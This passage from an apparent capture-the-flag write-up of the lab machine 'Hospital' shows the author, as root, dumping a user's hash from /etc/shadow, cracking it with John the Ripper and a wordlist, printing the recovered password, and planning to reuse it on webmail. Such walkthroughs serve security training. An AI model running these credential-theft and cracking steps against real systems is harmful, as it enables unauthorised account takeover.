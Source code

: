 ## Access to windows machine as drbrown

Now that we have access as root in the linux machine, we can try to crack the hash of /etc/shadow.

```bash
root@webserver:/tmp## cat /etc/shadow | grep "drwilliams"
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```

```bash
❯ cat drwilliams.hash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: drwilliams.hash
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ $6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

❯ john -w=/usr/share/wordlists/rockyou.txt drwilliams.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwe123!@##        (?)     
1g 0:00:00:15 DONE (2024-04-09 18:02) 0.06285g/s 13516p/s 13516c/s 13516C/s rufus11..pakimo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have that password, let's try to reuse it to roundcube webmail service and see if we can see his mails:

![Branching](/assets/images/Hospital/mail_drbrown_eps.png)
